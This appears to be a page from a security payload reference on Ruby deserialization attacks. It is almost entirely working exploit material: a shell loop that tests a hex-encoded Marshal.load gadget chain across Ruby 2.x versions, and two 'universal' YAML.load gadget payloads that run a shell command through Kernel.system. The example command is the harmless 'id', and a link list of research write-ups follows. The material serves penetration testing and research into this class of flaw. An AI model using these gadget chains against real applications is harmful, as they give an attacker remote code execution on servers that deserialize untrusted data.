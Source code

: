 +++
title = "Ruby Deserialization"
description = "Ruby deserialization attacks"
date = "2023-03-28"
include_toc = 'true'
+++

# Ruby Deserialization

## Marshal.load

Script to generate and verify the deserialization gadget chain against Ruby 2.0 through to 2.5

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```

## Yaml.load

Vulnerable code
```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

Universal gadget for ruby <= 2.7.2:
```ruby
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

Universal gadget for ruby 2.x - 3.x.

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```


## References

- [RUBY 2.X UNIVERSAL RCE DESERIALIZATION GADGET CHAIN - elttam, Luke Jahnke](https://www.elttam.com.au/blog/ruby-deserialization/)
- [Universal RCE with Ruby YAML.load - @_staaldraad ](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
- [Online access to Ruby 2.x Universal RCE Deserialization Gadget Chain - PentesterLab](https://pentesterlab.com/exercises/ruby_ugadget/online)
- [Universal RCE with Ruby YAML.load (versions > 2.7) - @_staaldraad](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)
* [Blind Remote Code Execution through YAML Deserialization - 09 JUNE 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)